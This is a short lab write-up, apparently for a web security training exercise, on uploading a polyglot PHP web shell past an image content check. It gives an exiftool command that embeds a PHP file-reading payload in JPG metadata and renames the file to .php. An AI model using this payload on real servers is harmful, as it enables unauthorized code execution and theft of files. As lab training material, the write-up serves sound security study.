 ### Lab: Remote code execution via polyglot web shell upload

This lab contains a vulnerable image upload function.
Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret.
Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter


Web-Server behavior:

1) Upload file.png (1kb) ===> Error: file is not a valid image Sorry, there was an error uploading your file.
2) Upload file.jpg (1kb) ===> Error: file is not a valid image Sorry, there was an error uploading your file.
3) Upload dog.jpg (35kb) ===> The file avatars/dog.jpg has been uploaded. (Path: /files/avatars/dog.jpg)



Exploit:
1) PHP injection in legit JPG file via exitftool (**exiftool -DocumentName="<?php echo file_get_contents('/home/carlos/secret');__halt_compiler();?> [IMAGE FILE]**")
    1a) Rename injected file *.jpg into *.php ===> The file avatars/dog_php_injected.php has been uploaded.
